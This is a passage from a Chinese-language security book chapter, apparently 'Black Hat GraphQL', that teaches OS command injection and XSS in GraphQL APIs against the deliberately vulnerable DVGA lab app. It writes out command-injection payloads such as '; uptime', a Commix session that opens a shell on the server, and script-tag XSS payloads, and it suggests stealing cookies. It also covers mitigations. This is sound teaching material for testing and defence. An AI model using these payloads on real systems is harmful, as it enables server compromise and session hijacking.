*操作系统（OS）命令注入*漏洞是影响应用程序底层操作系统的注入漏洞，它发生在用户输入被插入到系统命令行命令中时。这使得我们能够引入额外的参数，或者突破指定命令，执行我们控制的命令。

就像 SQL 注入（SQLi）一样，操作系统命令注入可能对应用程序造成严重后果，允许攻击者执行以下操作：

+   列举本地服务、进程、用户和组

+   泄露本地文件系统文件，如敏感配置文件、数据库文件等

+   通过让服务器回调到我们的远程 shell 获得远程访问

+   使用专门的恶意软件将服务器转变为攻击发起平台

+   将服务器转变为加密矿工

操作系统命令注入可以有效地让我们在服务器上执行系统管理任务，通常是在 Web 应用程序用户的上下文中。Web 服务器通常在像 *www-data*、*apache*、*nginx* 等 Unix 账户下运行，或者，如果我们运气够好，可能会是 *root* 用户。

应用程序通常设计为使用系统 shell 库来执行后台任务。例如，一个应用程序可能需要通过使用 `ping` 命令来检查远程服务器是否存活，或者通过使用 `wget` 命令来下载文件。它也可能使用 `zip`、`tar` 或 `gunzip` 等命令压缩文件，或者通过 `cp` 或 `rsync` 等命令来备份文件系统。

单单使用系统工具并不一定意味着存在操作系统命令注入漏洞，但如果应用程序运行的系统工具命令能够受到任意用户输入的影响，那就可能会变得危险。在执行源代码审查时，检查以下导入的库和函数，看看它们的命令是否是通过自定义用户输入构建的：

+   Python 库，如 *subprocess* 和 *os* 以及函数，如 `exec` 和 `eval`

+   PHP 函数，如 `system`、`shell_exec`、`eval` 和 `exec`

+   Java 函数，如 `Runtime.exec()`

+   Node.js 模块，如 `child_process` 和函数，如 `exec` 和 `spawn`

### 示例

假设一个应用程序允许用户提供一个 URL，然后从该 URL 下载文件到应用程序的本地文件系统。考虑下面的 Flask 函数示例，Flask 是一个用 Python 编写的 Web 框架：

```
@app.route('/download', methods=['POST'])
def download():
  ❶ url = request.form['url']
  ❷ os.system('wget {} -P /data/downloads'.format(url))
    return redirect('/dashboard')
```

这段代码是一个 Python Web 应用程序路由，它暴露了一个名为 */download* 的端点。这个端点支持通过 HTTP POST 方法发送的请求。

在❶处，应用程序从网站上的 HTML 表单获取用户输入，并将其分配给`url`变量。在❷处，`url`变量被用于`wget`命令的上下文中，实际上使得`wget`能够通过使用`url`变量来下载文件。下载的文件随后存储在服务器文件系统的*/data/downloads*文件夹中。因此，如果客户端提供类似*http://example.com/file.zip*的 URL，Web 应用程序将执行以下 shell 命令：

```
wget http://example.com/file.zip -P /data/downloads
```

这里存在多个问题。首先，应用程序允许任何 URL 的输入，但没有任何检查机制来验证输入是否为有效的 URL 格式。其次，客户端可以提供内部 URL 或私人 IP 地址来识别并访问受限的内部资源，这也可能导致*服务器端请求伪造（SSRF）*漏洞（更多关于 SSRF 漏洞的内容见第九章）。此外，由于应用程序将客户端输入直接插入到`wget`命令中，我们可以引入任何我们想要的 shell 命令。我们还可以使用分号（`;`）字符来分隔或中断`wget`命令，开始一个新的命令，从而有效地执行操作系统命令注入。这可能导致服务器完全被攻陷。

### DVGA 中的手动测试

在 GraphQL 中，如果解析器函数接受来自 GraphQL 字段的参数而没有对输入进行必要的验证，就可能发生操作系统命令注入。让我们看看在 DVGA 中这会是什么样子。

返回我们之前查看的架构文档，我们有四个感兴趣的字段，它们都以`system`开头：`systemUpdate`、`systemHealth`、`systemDiagnostics`和`systemDebug`。虽然字段名称在不同应用程序之间可能有所不同，但`system`一词通常暗示着在背后使用了系统 shell 命令，因此探索这些字段是否存在操作系统命令注入是值得的。

如果你曾经对家庭路由器进行渗透测试，你会知道它的调试或诊断页面可能是寻找重大漏洞的最有趣的地方。操作系统命令注入通常存在于这些接口中，因为它们在背后使用网络工具，如`ping`或`traceroute`。家庭路由器在安全性方面并不出名，它们几乎从不检查输入是否包含危险字符，且通常容易受到操作系统命令注入的攻击。

在本节中，我们将重点关注`systemDebug`。在 Altair 中运行以下命令，查看我们得到的响应：

```
**query {**
 **systemDebug**
**}**
```

如果你做过一些 Linux 系统管理工作，你可能会认出以下输出片段；它来自于`ps`命令，用于显示正在运行的系统和用户进程的信息：

```
"systemDebug": "    PID TTY          TIME CMD\n  11999 pts/1    00:00:00 bash\n
14050 pts/1    00:00:00 python3\n  14055 pts/1    00:00:03 python3\n  14135 pts/1
00:00:00 sh\n  14136 pts/1    00:00:00 ps\n"
```

打开 Altair 中的**Docs**页面。在查询部分，你会注意到`systemDebug`接受一个名为`arg`的单一参数，类型为`String`，这看起来很有前景。GraphQL 查询解析器是否将该参数直接传递给`ps`命令？让我们来探究一下：

```
**query {**
 **systemDebug(arg:"ef")**
**}**
```

现在输出看起来有点不同。这是因为 `e` 和 `f` 是 `ps` 命令接受的两个有效参数，它们改变了输出的格式。`e` 参数显示系统上的所有进程，而 `f` 参数将输出格式更改为完整格式列表。

看起来 `arg` 参数接受我们的输入，并将其与 `ps` 命令连接起来。我们可以通过修改 `arg` 来引入自己的命令，例如添加分号字符（`;`），然后接着选择另一个 Linux 命令，如 `uptime`：

```
**query {**
 **systemDebug(arg:"; uptime")**
**}**
```

现在我们得到了不同的输出。似乎包含了来自 GraphQL 服务器的系统信息，验证了我们关于操作系统命令注入可能性的假设：

```
PID TTY          TIME CMD\n  11999 pts/1    00:00:00 bash\n  14050 pts/1
1 user,  load average: 0.71, 0.84, 0.91\n"
```

接下来，我们将探讨如何通过利用专门的命令注入框架，更有效地测试操作系统命令注入。

### 使用 Commix 进行自动化测试

到目前为止，我们已经采用手动方式来识别操作系统命令注入漏洞。然而，有时候这些漏洞并不会那么容易找到和利用。例如，一些应用程序可能会限制它们接受的字符类型，使得向查询参数等位置注入命令变得更加困难。或者，位于我们和目标 GraphQL API 之间的防火墙可能会阻止危险字符的接受。这些安全控制措施使得通过手动测试方法识别漏洞变得困难且耗时。

自动化命令注入有助于测试许多字符变化，直到我们找到正确的逻辑。例如，命令注入可以通过引入以下任一字符等方式发生：

+   分号（`;`）用来分隔命令

+   一个单独的与号（`&`）用来将第一个命令发送到后台并继续执行我们引入的第二个命令。

+   双与号（`&&`）用来在第一个命令执行成功（返回 `true`）后运行第二个命令，作为 AND 条件

+   双管道符号（`||`）用来在第一个命令执行失败（返回 `false`）后运行第二个命令，作为 OR 条件

通过使用自动化注入工具，我们可以轻松地测试许多这些字符。

*Commix* 是一个跨平台的操作系统命令注入框架，能够发现并利用应用程序中的这些漏洞。Commix 通过对各种应用程序输入进行模糊测试，并检查服务器响应中的模式来进行其“魔法”，这些模式表明命令注入成功。Commix 还可以通过推测来识别成功的注入尝试，例如通过向命令中添加延迟并使用 `sleep` 来计时响应。

让我们再看看 GraphQL 的 `systemDebug` 字段，它使我们能够通过 `arg` 参数注入操作系统命令。假设在渗透测试中，我们尚未及时识别出如何利用应用程序，但觉得可能有一些东西值得探索。我们可以使用 Commix 通过尝试数十种有效载荷变体来扩大攻击规模，从而节省宝贵的时间。

在 列表 8-5 中的 Commix 命令展示了如何对我们的目标应用执行注入测试：

```
# commix --url="http://127.0.0.1:5013/graphql"
**--data='{"query":"query{systemDebug(arg:\"test \")}"}' -p arg**

[info] Testing connection to the target URL.
You have not declared cookie(s), while server wants to set its own.

Do you want to use those [Y/n] > **Y**
[info] Performing identification checks to the target URL.
Do you recognize the server's operating system? [(W)indows/(U)nix/(q)uit] > **U**
JSON data found in POST data. Do you want to process it? [Y/n] > **Y**
It appears that the value 'query{systemDebug(arg:\"test\")}' has boundaries.
Do you want to inject inside? [Y/n] > **Y**

[info] Testing the (results-based) classic command injection technique.
[info] **The POST (JSON) parameter 'arg' seems injectable** via (results-based)
classic command injection technique.
       |_ echo UTKFLI$((13+45))$(echo UTKFLI)UTKFLI

Do you want a Pseudo-Terminal shell? [Y/n] > **Y**
Pseudo-Terminal (type '?' for available options)

commix(os_shell) > **ls**

__pycache__ app.py config.py core db dvga.db pastes requirements.txt
setup.py static templates version.py
```

列表 8-5：使用 Commix 成功执行的 GraphQL 操作系统命令注入

我们通过 GraphQL 查询 `systemDebug` 并使用 `arg` 参数来指定 GraphQL 目标 URL *http://localhost:5013/graphql*。然后，我们使用 `-p` 标志告诉 Commix 应在特定的 `arg` 占位符处注入有效载荷。

Commix 识别出服务器想要设置 HTTP cookie。我们通过在命令行输入 `Y` 来接受此请求。然后，Commix 需要了解远程服务器运行的操作系统类型，以便从其数据库中选择相关的有效载荷。例如，Linux 服务器需要与 Windows 服务器不同的注入有效载荷。我们通过指定 `U` 字符选择 Unix 选项。

接下来，我们指示 Commix 处理来自 GraphQL 服务器的 JSON 响应。我们指定要在命令边界内注入有效载荷。Commix 表示它发现 `arg` 参数是可注入的。它通过将 `echo` 命令与一个唯一字符串插入其中来识别这一点。如果响应中包含这个唯一字符串，说明代码已成功注入。

我们启动一个伪 shell 以便向服务器发送 Unix 命令。最后，我们发送 `ls` 命令测试是否能通过我们的 shell 与服务器交互，并列出其文件。我们看到列出了几个文件，意味着我们已经成功执行了操作系统命令注入。

如你所见，Commix 提供了一种非常便捷的方式来对 GraphQL API 进行一系列注入测试。

### 解析器函数的代码审查

让我们对 `systemDebug` 的解析器函数进行代码审查，以查看它在 DVGA 中是如何实现的（见 列表 8-6）。这将帮助我们更好地理解我们发现的操作系统命令注入漏洞的根本原因。

```
def resolve_system_debug(self, info, arg=None):
  Audit.create_audit_entry(info)
  if arg:
    output = helpers.run_cmd('ps {}'.format(arg))
  else:
    output = helpers.run_cmd('ps')
  return output
```

列表 8-6：DVGA 中的解析器函数

`resolve_system_debug()` Python 函数处理 GraphQL 字段 `systemDebug`。它接受一个名为 `arg` 的单一可选参数。如果客户端没有在查询中设置该参数，则默认为 `None`。

在这个函数中，`helpers.run_cmd()` 函数运行 `ps` 系统 shell 命令，如果 `arg` 值不为 `None`，则将其与命令连接。如果客户端提供了 `ef` 参数，命令最终变成以下内容：

```
output = helpers.run_cmd('ps ef')
```

如果客户端没有提供`arg`参数的任何值，函数将仅仅运行`ps`命令，返回系统上正在运行的进程列表。

这里的漏洞在于没有对提供的`arg`参数进行安全检查，因此解析器函数会执行它接收到的任何 Linux 命令。这可以通过多种方式进行缓解：

+   只接受字母字符（`a`到`z`），并确保这些字符是有效的`ps`参数

+   移除任何可能允许攻击者引入额外命令的危险字符

+   以非特权用户身份运行命令，以降低注入可能性时的风险

+   使用专门的内置库而不是直接使用 shell 命令，例如 Python 中的*psutil*库

到目前为止，我们讨论了会影响服务器的注入漏洞。接下来，我们将探讨几种影响客户端的注入漏洞。

## 跨站脚本（XSS）

注入漏洞也会影响客户端。假设某社交媒体网站的个人资料更新页面允许用户修改全名和简介。如果应用程序没有对这些输入进行任何安全验证，我们可以尝试使用一些 GraphQL 变更来提交恶意的 JavaScript 代码到页面，并且在其他客户端访问我们的个人资料时，使其在他们的浏览器中渲染。能够在客户端浏览器中执行 JavaScript 代码非常强大，因为它使我们能够将浏览器信息（如 cookie）外泄到远程服务器，获取敏感的会话令牌，从而劫持客户端的会话。

*跨站脚本（XSS）*漏洞发生在客户端代码（如 JavaScript）在网页浏览器的上下文中被解释和执行时。这种类型的漏洞自 1990 年代以来就被报告，但即使今天，30 多年后，我们依然可以看到它的存在。

如果你已经熟悉 XSS 漏洞，你会发现它们在 GraphQL 中与其他 API 技术（如 REST）没有太大不同。本节简要解释了主要的 XSS 漏洞类型：反射型、存储型和基于 DOM 的 XSS。然后，我们将探讨 DVGA 中的 XSS 漏洞，让你在 GraphQL API 中积累识别它们的经验。

### 反射型 XSS

可能是所有 XSS 漏洞中最简单的一种，*反射型 XSS*发生在输入被提交到服务器并立即返回给客户端的响应中，如 HTML 错误信息或 HTML 页面内容中。

从攻击者的角度来看，利用反射型 XSS 漏洞需要通过社会工程学让受害者点击一个触发 XSS 有效载荷的链接，导致攻击者的 JavaScript 代码在受害者的浏览器中执行。

在 GraphQL 的上下文中，一个易受反射型 XSS 攻击的查询可能如下所示：

```
query {
   hello(msg:"Black Hat GraphQL")
}
```

这个`hello`操作需要一个`msg`参数，该参数接受来自客户端的输入——在这种情况下，是字符串`Black` `Hat` `GraphQL`。当客户端提交这些信息时，服务器将渲染页面，并可能打印出类似`Hello Black Hat GraphQL!`的消息。

现在，假设我们将`msg`参数的值更改为一个 JavaScript 负载：

```
query {
   hello(msg:"<script>document.cookie;</script>")
}
```

当这在客户端的浏览器中渲染时，`<script>`标签将指示浏览器调用`document` JavaScript 对象并打印`cookie`字符串。Cookie 通常会包含与会话相关的信息，例如标识符。

因为这些信息并没有存储在服务器的数据库中，而是通过提交查询后反射回客户端的响应中，所以这是反射型 XSS。我们可以通过让受害者的浏览器将其 cookie 发送到我们控制的远程服务器来改进负载，从而使我们能够窃取用户的 cookie。

我们早些时候提到，这个攻击需要社会工程学才能发挥作用。例如，通过网络钓鱼邮件，我们可以将一个包含恶意 JavaScript 负载的 URL 发送给受害者，并等待他们点击。

你可能会问，使用 POST 请求时这如何工作呢？好吧，我们在书中早些时候提到，GraphQL 可能支持基于 GET 的查询，因此你可以尝试构造如下链接，并测试目标 GraphQL 服务器是否支持基于 GET 的查询：

```
http://example.com/graphql?query=query%20%7B%0A%20%20hello(msg%3A%22hello%22)%0A%7D
```

解码后，这个 URL 看起来如下所示：

```
http://example.com/graphql?query=query {
  hello(msg:"hello")
}
```

支持基于 GET 的查询的 GraphQL API 将接受一个`query` GET 参数，后面跟着查询语法。查询操作可以是查询或突变。受害者点击此链接后，将通过 GET 请求提交一个 GraphQL 查询。在第九章中，您将了解如何利用 GET 请求进行跨站请求伪造（CSRF）攻击。

### 存储型 XSS

在*存储型*或*持久型*的*XSS*中，注入的负载被持久化存储到数据存储中，例如数据库，而不是作为查询响应的一部分反射回客户端。因此，不同于反射型 XSS，存储型 XSS 漏洞会在每次客户端浏览器加载包含恶意负载的页面时触发注入的脚本。

通常，存储型 XSS 漏洞被认为比反射型 XSS 更危险。XSS 负载存在于应用程序的数据存储中，可能对其他系统构成风险，例如：

+   其他服务器从与 GraphQL 应用程序相同的数据存储中读取恶意输入。这些服务器实际上受到了相同漏洞的影响。

+   同一 GraphQL 应用程序中的其他流程从相同的数据存储中读取。这个漏洞会影响应用程序的其他部分，因此会影响其他客户端。

图 8-11 展示了存储型 XSS 如何影响其他系统。



图 8-11：存储型 XSS 漏洞影响相邻应用程序

我们的恶意输入可以穿越网络上的许多设备和资源；在首次经过 GraphQL API 层后，它可能会被插入到不同的数据存储中，例如缓存数据库、关系型数据库或本地文件。

从那里开始，我们并不总是能知道攻击是否成功。通常，我们需要等待直到某些事情（或某个人）触发我们的有效载荷。假设我们使用 GraphQL 突变发送一个 JavaScript 有效载荷，然后没有收到任何指示说明它已成功作为 JavaScript 代码被应用渲染。几种解释都是可能的。例如，我们可能已经将有效载荷注入到一个数据库表中，该表仅能被具有不同访问权限的用户读取。

联系表单提供了一个很好的例子。假设你在一个反馈表单中提交一个有效载荷给你最近购买物品的商店，并收到一个 `感谢您的提交` 的消息。即使你没有收到任何表明攻击尝试成功的提示，你的攻击也不一定是死路一条。有效载荷可能仅在商店打开反馈表单后被触发。这可能发生在几天甚至几周后。我们将这些隐藏攻击称为 *盲 XSS*，它是存储型 XSS 的一个子类别。

为了利用盲 XSS 漏洞，你可以使用生成唯一有效载荷的工具进行测试。当发现 XSS 漏洞并且有效载荷被触发时，负载将向一个集中式服务器发送探测信息进行进一步检查，从而让你捕获到关于执行了有效载荷的客户端的信息。一个这样的工具是 *XSS Hunter* ([`xsshunter.com`](https://xsshunter.com))。当你的 XSS 有效载荷被触发时通知你的工具非常方便。

### 基于 DOM 的 XSS

*文档对象模型基础的 XSS*，或称 *基于 DOM 的 XSS*，漏洞发生在 JavaScript 注入有效载荷仅在浏览器的 DOM 中执行时。DOM 是一种网页文档的表示形式，允许应用程序修改其结构、内容和样式。所有 HTML 对象都可以使用 DOM API 进行操作。

例如，文档对象可以用来获取网页中的 HTML `<title>` 标签。在 DVGA 的网页界面中，打开浏览器的开发者工具，在 **控制台** 标签页中输入命令 `document.title`。你应该会看到如下结果：

```
# document.title

'Damn Vulnerable GraphQL Application'
```

虽然反射型 XSS 和存储型 XSS 是由于服务器端代码中的漏洞引起的，但 DOM XSS 漏洞通常源于前端应用程序代码中存在的漏洞，这些代码面向客户端。例如，当恶意输入（通常作为 URL 的一部分）能够被插入并传递给支持动态代码执行的组件时，就可能发生这种情况，比如 JavaScript 的 `eval` 函数。

由于 DOM XSS 漏洞发生在客户端代码中，GraphQL API 并不是这些漏洞的根本原因。尽管如此，我们认为有必要意识到这一点，因为社区构建的 GraphQL 客户端可能会容易受到这些漏洞的影响。有关可用 GraphQL 客户端库的完整列表，请访问 [`graphql.org/code/#javascript-client`](https://graphql.org/code/#javascript-client)。

### 在 DVGA 中测试 XSS

在本节中，我们将使用 DVGA 的用户界面进行 XSS 测试。DVGA 中实现了多个 XSS 漏洞，因此我们可以通过多种方式实现 XSS。我们将探索一些技术，帮助你熟悉使用 GraphQL 查询进行 XSS 测试。

在实验室中打开你的网页浏览器，并导航到 DVGA 的主界面 ***http://localhost:5013***。

#### 篡改审计页面

首先，点击左侧边栏中的一些页面，比如“Public Pastes”。你的浏览器会开始发送 GraphQL 查询以填充网页信息。接着，点击右上角的用户图标，然后点击 **Audit**。你应该能够看到列出的审计事件，如 图 8-12 所示。


图 8-12：DVGA 中的审计记录

这个审计页面表明，应用程序正在自动跟踪我们在浏览页面时浏览器发送的每个查询，收集的信息如下：

+   演员或*用户*的名称（在本例中为 *DVGAUser*）

+   使用的 *GraphQL 操作* 名称（在本例中为 *getPastes*）

+   *执行的查询*（在本例中，是带有 `public` 参数和几个选定字段（如 `id`、`title` 和 `content`）的 `pastes` GraphQL 字段）

这个输入完全在我们的控制之下。让我们首先探讨如何篡改 GraphQL 操作以影响审计页面。将以下查询复制并粘贴到 Altair 中，然后运行：

```
**mutation SpoofedOperationName {**
 **createPaste(title:"Black Hat GraphQL", content:"I just spoofed the operation name.") {**
 **paste {**
 **content**
 **title**
 **}**
 **}**
**}**
```

该变异创建了一个新粘贴，标题为 `Black Hat GraphQL`，内容为 `I just spoofed the operation name`。同时，我们返回新创建粘贴的 `content` 和 `title` 字段，它们的值应该是相同的。

刷新审计页面。你应该能够看到现在它在 GraphQL 操作列下显示了我们伪造的操作名称 `SpoofedOperationName`，如 图 8-13 所示。这就是安全分析师在尝试通过操作名称监控 GraphQL 查询时可能看到的内容。



图 8-13：显示 DVGA 中修改后的操作名称的审计页面

正如我们之前提到的，不同的 GraphQL 服务器实现可能允许操作名称包含特殊字符，这可能成为注入向量，因此在可能的情况下，始终测试这些特殊字符。

#### 在 CreatePaste 变异中发现存储型 XSS

当我们在 DVGA 创建一个新的粘贴时，`createPaste` mutation 中使用的 GraphQL 字段，如 `title` 和 `content`，会显示在公共粘贴页面上。图 8-14 中的截图展示了这是什么样子的。



图 8-14：DVGA 中的粘贴结构和内容

如你所见，我们的粘贴出现在网页上。这是一个开始测试 `createPaste` 字段的好机会，可以输入例如 JavaScript 代码，看看数据是否在网页界面中安全地渲染。

继续使用列表 8-7 中显示的 mutation 查询创建一个新的粘贴。

```
mutation {
  createPaste(title:"XSS", content:"<script>alert(\"XSS\")</script>") {
    paste {
      title
      content
    }
  }
}
```

列表 8-7：通过 `createPaste` mutation 注入 XSS payload

这个 mutation 创建一个新的粘贴，`content` 参数中包含一个 JavaScript `<script>` 标签。如果应用程序存在 XSS 漏洞，这段代码将在浏览器中被渲染，并弹出一个消息框，显示 `XSS`。发送这个 mutation 查询后，转到**公共粘贴**页面。你应该会看到一个弹出消息，如图 8-15 所示。



图 8-15：通过恶意 mutation 触发的 XSS payload

让我们回顾一下这里发生了什么。我们首先使用 `createPaste` 创建了一个新的粘贴，并将恶意的 JavaScript payload 提供给 mutation 的 `content` 参数。然后，API 将新的粘贴存储在数据库中。因为我们的客户端通过 WebSocket 协议使用了 GraphQL 订阅操作，且订阅是实时的，我们立即看到了我们创建的新粘贴，里面包含了恶意的 JavaScript 代码。这是一个存储型 XSS 漏洞的例子。

#### 发现文件上传功能中的反射型 XSS

现在我们将探讨如何通过文件上传功能创建一个新的粘贴。这应该能让你了解文件上传在 GraphQL 中的表现，以及它们是否可能存在 XSS 漏洞。下载以下文本文件到你的计算机：[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch08/paste_from_file.txt`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch08/paste_from_file.txt)。

打开 DVGA 中的**上传粘贴**页面以上传文本文件。该文件最终将存储在数据库中。点击**选择文件**并选择你下载的文件，然后点击**上传**。

你可以使用 Burp Suite 在点击上传按钮之前拦截请求，查看 GraphQL mutation 的样子。或者，可以使用浏览器开发者工具中的网络标签页。图 8-16 显示了 Burp Suite 中的 mutation。


图 8-16：Burp Suite 中的 `UploadPaste` mutation

如你所见，我们使用`UploadPaste`创建一个包含本地文件的新粘贴。你还可以看到，我们将两个变量`content`和`filename`作为 HTTP POST JSON 有效载荷的一部分传递。`content`键包含上传文件中的数据，`filename`键则是服务器在磁盘上设置的文件名。

有效载荷定义了一个 HTML 标题（`<h3>`）、一个段落（`<p>`）以及一个 JavaScript 脚本标签（`<script>`），该标签调用`alert`函数并传入字符串`Black` `Hat` `GraphQL`。这些信息将由浏览器渲染，且由于使用了`alert`，一个弹窗将会出现，确认我们可以通过 XSS 注入执行 JavaScript。

该查询发送到服务器后（确保你在 Burp Suite 中点击**Forward**进行操作），我们可以通过导航到**Private Pastes**页面来查看新上传的文件。你应该能看到一个 JavaScript 弹窗，如图 8-17 所示。



图 8-17：粘贴的代码在浏览器中执行并触发了弹窗。

我们通过使用`UploadPaste`上传包含 JavaScript 和 HTML 代码的恶意文本文件，成功触发了一个存储型 XSS 漏洞。

## 总结

在本章中，我们详细探讨了注入漏洞，从影响数据库和操作系统的漏洞到影响客户端浏览器的漏洞，包括经典和盲注 SQL 注入；反射型、存储型和基于 DOM 的 XSS；以及操作系统命令注入。

当 GraphQL API 未能仔细验证输入时，可能会出现许多问题。我们识别了 GraphQL 中各种输入入口点——从查询、字段、指令参数到操作名称——这些都构成了注入面。注入漏洞可能对应用数据产生毁灭性影响，尽管框架在提供可复用的安全方法方面已经有所改进，但这些漏洞今天仍然普遍存在。
